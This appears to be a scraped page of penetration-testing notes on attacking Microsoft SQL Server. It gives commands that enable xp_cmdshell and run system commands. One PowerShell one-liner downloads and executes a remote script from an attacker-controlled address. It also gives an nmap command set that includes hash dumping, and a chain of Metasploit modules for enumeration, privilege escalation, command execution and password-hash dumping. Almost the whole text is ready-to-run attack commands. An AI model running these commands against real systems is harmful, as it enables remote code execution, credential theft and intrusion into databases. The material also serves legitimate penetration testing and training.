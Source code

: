 ```
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go




xp_cmdshell "powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.60:8000/ye443.ps1')"


https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

Entry_2:
Name: Nmap for SQL
Description: Nmap with SQL Scripts
Command: nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 {IP}

Entry_3:
Name: MSSQL consolesless mfs enumeration
Description: MSSQL enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_ping; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_enum; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use admin/mssql/mssql_enum_domain_accounts; set RHOSTS {IP}; set RPORT <PORT>; run; exit' &&msfconsole -q -x 'use admin/mssql/mssql_enum_sql_logins; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_dbowner; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_execute_as; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_exec; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_findandsampledata; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_hashdump; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_schemadump; set RHOSTS {IP}; set RPORT <PORT>; run; exit'

```
{% hint style="success" %}